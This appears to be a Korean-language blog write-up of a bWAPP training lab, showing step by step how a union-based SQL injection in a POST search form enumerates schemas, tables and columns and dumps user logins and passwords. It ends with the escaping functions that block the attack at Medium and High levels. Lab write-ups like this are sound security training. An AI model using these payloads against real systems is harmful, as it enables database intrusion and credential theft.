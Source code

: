 ```yaml
---
layout: single
title: (bWAPP)SQL Injection POST/Search
categories: Web-vuln
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/sqlp-search-archive/sqlp-search/image.png)

- 게시글을 출력하는 기능이 존재
- 입력값은 POST 형식으로 전달됨

![그림 1-2](/assets/image/bwapp/injection/sqlp-search-archive/sqlp-search/image2.png)

- '(싱글 쿼터) 입력시 DBMS Error가 출력됨
- Proxy Tool을 사용하여 입력값을 전송 해도 되지만, (실제 취약점 진단시 Proxy Tool사용을 권장) 현 실습에서는 입력값을 통한 실습을 진행

```sql
' or 1=1--
```
- 위와 같이 일반적인 조건 연산자를 통한 Injection 취약점 유/무를 판단했다. 
- 정상적인 데이터 출력을 확인, 즉 조건연산자가 Injection 과 함께 사용 가능

```sql
' order by 8
```

![그림 1-3](/assets/image/bwapp/injection/sqlp-search-archive/sqlp-search/image3.png)

- order by 절을 사용하여 컬럼 개수를 파악
- 8개에서 오류가 출력됨을 확인하여 컬럼 개수는 7개로 추정

```sql
' and 1=2 union select 1,2,3,4,5,6,7--
```

- MySQL  의 경우 데이터 타입이 달라도 출력되므로 컬럼의 출력 포지션을 파악
![그림 1-4](/assets/image/bwapp/injection/sqlp-search-archive/sqlp-search/image4.png)
- 2,3,5,4 가 페이지상에 노출 됨

```sql
' and 1=2 union select 1,schema_name,3,4,5,6,7 from information_schema.schemata--
```

- 5개의 데이터베이스 존재 확인
![그림 1-5](/assets/image/bwapp/injection/sqlp-search-archive/sqlp-search/image5.png)

- 이후 순차적으로 테이블, 컬럼명들을 확인

```sql
' and 1=2 union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema='bWAPP'--
```

```sql
' and 1=2 union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_schema='bWAPP' and table_name='users'--
```

```sql
' and 1=2 union select 1,concat(id,0x3a,login),concat(password,0x3a,secret),4,admin,6,7 from bWAPP.users--
```

- 최종 적으로 id, login, password, secret 컬럼에 대한 데이터 추출을 시도

![그림 1-6](/assets/image/bwapp/injection/sqlp-search-archive/sqlp-search/image6.png)

- 성공적으로 데이터를 추출했다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.